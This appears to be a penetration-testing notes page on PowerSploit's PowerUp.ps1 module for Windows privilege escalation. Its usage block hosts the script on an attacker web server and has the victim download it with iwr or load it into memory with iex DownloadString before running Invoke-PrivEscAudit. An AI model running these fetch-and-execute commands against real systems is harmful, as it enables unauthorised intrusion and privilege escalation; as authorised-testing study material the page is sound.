 
### Overview
---
``PowerUp.ps1`` is a Privilege Escalation-based PowerShell module part of the [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master) project, and it comes native on Kali Linux.  It contains a plethora of PowerShell scripts meant to exploit specific privilege escalation vulnerabilities, but it's most valuable script is ``Invoke-PrivEscAudit`` (or the alias ``Invoke-AllChecks``) which quickly and succinctly scrubs the host for potential privilege escalation vectors, as well as provides recommendations for how to abuse found vulnerabilities.

>[!info]
>While not as massive and verbose as ``winPEAS``, it is much more succinct and not overwhelming with information.


### General Usage
---
```shell
### On Attacker ###

# Default Kali Location:
# /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1

# Create a Simple Web Server Hosting Scripts
python -m http.server --directory /usr/share/windows-resources/powersploit/Privesc
```

```powershell
### On Victim ###

# Download Script to Disk
iwr 'http://<ip_addr>:8000/PowerUp.ps1' -o PowerUp.ps1 -UseBasicParsing
. PowerUp.ps1

# OR Load Script into Memory
iex ([System.Net.WebClient]::new().DownloadString('http://<ip_addr>:8000/PowerUp.ps1'))

# Check for Privilege Escalation vectors
Invoke-PrivEscAudit # or Invoke-AllChecks (alias)
```